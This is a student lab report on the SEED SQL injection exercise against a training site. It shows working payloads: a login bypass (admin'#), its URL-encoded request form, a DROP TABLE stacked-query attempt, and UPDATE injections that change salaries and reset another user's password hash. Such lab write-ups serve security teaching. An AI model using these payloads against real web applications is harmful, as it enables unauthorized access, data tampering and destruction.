










# SQL Injection Attack Lab Report

This lab focused on understanding how to exploit a website (http://www.seed-server.com) vulnerable to SQL injection attacks. This websites lets the user login with a username and password, and then displays the user's information. The website also has a page that allows the user to update their profile information. The website is vulnerable to SQL injection attacks in both pages.

## Task 1

In the first task, our goal was to extract information about the user Alice from the database. To achieve that, we used the following query:

```sql
SELECT * FROM CREDENTIAL WHERE NAME = 'Alice';
```

The desired information was successfully obtained:



## Task 2.1

In this task, our objective was to inject the SELECT statement used for login to gain access as the admin and retrieve all user information. 
The original PHP code snippet and pseudo code for the authentication logic are the following:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
$result = $conn->query($sql);
```

Pseudo code:
```c
// The following is Pseudo Code
if(id != NULL) {
    if(name=='admin') {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
    Authentication Fails;
}
```

To achieve our goal we input `admin'#` into the username field of the login form, resulting in the following query:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$admin'# and Password='$hashed_pwd'
```


By doing this we successfully bypassed the authentication, revealing all users' information:



This works because the attribute name in the query will acquire the value admin, and the rest of the code will be commented due to the #, this way the query will return all the rows where name is `admin`.


Note that the password can be anything since it is not used due to the username commenting out the rest of the statement.

## Task 2.2

For this task, we replicated the previous objective of gaining unauthorized access, but instead of using the login form, we made an HTTP request with the curl tool:

```http
http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=
```

To do so we had to replace the apostrophe by the value "%27" and the '#' by the value "%23".

The result displayed the same information as before:




## Task 2.3

In this task, we attempted to execute two SQL statements with a single SQL injection by entering `admin';DROP table credential;#` in the username field. However, this resulted in an error page due to the lack of support for multi-queries in the `mysql::query` function. This precaution is in place to reduce the damage from SQL injection attacks.





## Task 3.1

# Task: Impersonating Alice to Update Salary

In this task, our objective was to impersonate Alice and inject an UPDATE statement used for editing the users information through the edit form on the server so that we could modify our salary. The edit form on the server included the following fields  NickName, Email, Address, Phone Number, and Password.



The original PHP code snippet for editing a user is as follows:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname='$input_nickname',
        email='$input_email',
        address='$input_address',
        Password='$hashed_pwd',
        PhoneNumber='$input_phonenumber'
        WHERE ID=$id;";
$conn->query($sql);
```

To achieve our goal, we used  `Alice', salary = 50000 where Name='Alice'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Alice', salary = 50000 where Name='Alice'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```


This injection successfully updated Alice's salary to 50000.



This injection works because the attribute `nickname` in the query takes on the value `Alice` without altering the original nickname. The salary is set to 5000, the WHERE condition ensures that only the row corresponding to Alice is modified, and the rest of the code is commented out due to the `#`. Consequently, the query effectively updates Alice's salary.

## Task 3.2

Similarly to the previous task, we aimed to change the salary of an user however this time we will change the salary of the user named 'Boby' to 1. 

To achieve this we used  `Boby', salary = 1 WHERE Name='Boby'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', salary = 1 where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's salary to 1 



## Task 3.3

In the final task, the goal was to change the password of the user `Boby` to a specified value `godpacheco`. As the passwords were hashed using ***SHA1***, we hashed our chosen password `godpacheco` before inserting it into the database. The hashed password was `e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7`.

To achieve our goal we used  `Boby', Password='e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' WHERE name='Boby'#`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', Password = 'e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's password':


